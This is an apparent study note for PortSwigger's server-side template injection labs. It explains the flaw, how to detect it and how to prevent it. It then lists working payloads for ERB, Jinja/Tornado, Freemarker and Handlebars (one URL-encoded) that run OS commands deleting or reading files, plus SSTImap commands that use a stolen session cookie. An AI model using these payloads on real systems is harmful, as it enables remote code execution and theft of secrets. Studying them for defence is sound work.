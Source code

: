 ```yaml
---
description: >-
  CWE-1336: Improper Neutralization of Special Elements Used in a Template
  Engine
---
```


# SSTI

[Server-side template injection | Web Security Academy](https://portswigger.net/web-security/server-side-template-injection)

*   **What is server-side template injection?**

    Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

    Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.
*   **What is the impact of server-side template injection?**

    Server-side template injection vulnerabilities arise when user input is concatenated into templates rather than being passed in as data.

    Static templates that simply provide placeholders into which dynamic content is rendered are generally not vulnerable to server-side template injection. The classic example is an email that greets each user by their name, such as the following extract from a Twig template:

    ```
    $output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
    ```

    This is not vulnerable to server-side template injection because the user's first name is merely passed into the template as data.

    However, as templates are simply strings, web developers sometimes directly concatenate user input into templates prior to rendering. Let's take a similar example to the one above, but this time, users are able to customize parts of the email before it is sent. For example, they might be able to choose the name that is used:

    ```
    $output = $twig->render("Dear " . $_GET['name']);
    ```

    In this example, instead of a static value being passed into the template, part of the template itself is being dynamically generated using the `GET` parameter `name`. As template syntax is evaluated server-side, this potentially allows an attacker to place a server-side template injection payload inside the `name` parameter as follows:

    ```
    <http://vulnerable-website.com/?name={{bad-stuff-here}>}
    ```

    Vulnerabilities like this are sometimes caused by accident due to poor template design by people unfamiliar with the security implications. Like in the example above, you may see different components, some of which contain user input, concatenated and embedded into a template. In some ways, this is similar to [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerabilities occurring in poorly written prepared statements.

    However, sometimes this behavior is actually implemented intentionally. For example, some websites deliberately allow certain privileged users, such as content editors, to edit or submit custom templates by design. This clearly poses a huge security risk if an attacker is able to compromise an account with such privileges.
*   W**ork flow**

    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/29ca1d59-f65b-458e-87af-7256836e7162/Untitled.png)

    **Detect**

    try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\\`

    **Identify**

    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1f30bf8a-bf14-4d1e-9fb0-14f3e00cdadf/Untitled.png)

    **Exploit**

    [https://portswigger.net/web-security/server-side-template-injection/exploiting](https://portswigger.net/web-security/server-side-template-injection/exploiting)
*   **How to prevent server-side template injection vulnerabilities**

    The best way to prevent server-side template injection is to not allow any users to modify or submit new templates. However, this is sometimes unavoidable due to business requirements.

    One of the simplest ways to avoid introducing server-side template injection vulnerabilities is to always use a "logic-less" template engine, such as Mustache, unless absolutely necessary. Separating the logic from presentation as much as possible can greatly reduce your exposure to the most dangerous template-based attacks.

    Another measure is to only execute users' code in a sandboxed environment where potentially dangerous modules and functions have been removed altogether. Unfortunately, sandboxing untrusted code is inherently difficult and prone to bypasses.

    Finally, another complementary approach is to accept that arbitrary code execution is all but inevitable and apply your own sandboxing by deploying your template environment in a locked-down Docker container, for example
*   **SSTI Identified Using `SSTImap`**

    > SSTI can be identified using the tool `SSTImap`. The limitations of this tool is that the template expression `{{7*7}}` results are sometimes only evaluated by another `GET request` or calling another function in the application, as the output is not directly reflected or echoed into the response where the template expression was posted.

    ```xml
    python /opt/SSTImap/sstimap.py --engine erb -u <https://TARGET.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock> --os-cmd "cat /home/carlos/secret"
    ```

    > POST request with the data `param` to test and send payload using `SSTImap` tool.

    ```xml
    python /opt/SSTImap/sstimap.py -u <https://TARGET.net/product/template?productId=1> --cookie 'session=StolenUserCookie' --method POST --marker fuzzer --data 'csrf=ValidCSRFToken&template=fuzzer&template-action=preview' --engine Freemarker --os-cmd 'cat /home/carlos/secret'
    ```

    ![https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/sstimap.png](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/sstimap.png)
*   **SSTI payloads to manually identify vulnerability. →** [Security-Hub/ssti.txt at main · M8SZT8/Security-Hub (github.com)](https://github.com/M8SZT8/Security-Hub/blob/main/Fuzzing%20Lists/ssti.txt)

    ```xml
    ${{<%[%'"}}%\\.,
    }}{{7*7}} 

    {{fuzzer}}
    ${fuzzer}
    ${{fuzzer}}

    ${7*7}
    <%= 7*7 %>
    ${{7*7}}
    #{7*7}
    ${foobar}

    <div data-gb-custom-block data-tag="debug"></div>

    ```
* **Exploit**
  *   **Construct a payload to delete Carlos's file**

      `<%= system("rm /home/carlos/morale.txt") %>`
  *   [**Basic server-side template injection (code context)**](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

      ```xml
      blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
      ```
  *   [**Server-side template injection using documentation**](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

      ```xml
      <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
      ```
  *   [**Server-side template injection in an unknown language with a documented exploit**](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

      ```xml
      <https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d>
      ```
  *   [**Server-side template injection with information disclosure via user-supplied objects**](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

      ```xml
      ```

\{{settings.SECRET\_KEY\}} \`\`\` - Exploit - ssti to rce https://medium.com/r3d-buck3t/rce-with-server-side-template-injection-b9c5959ad31e
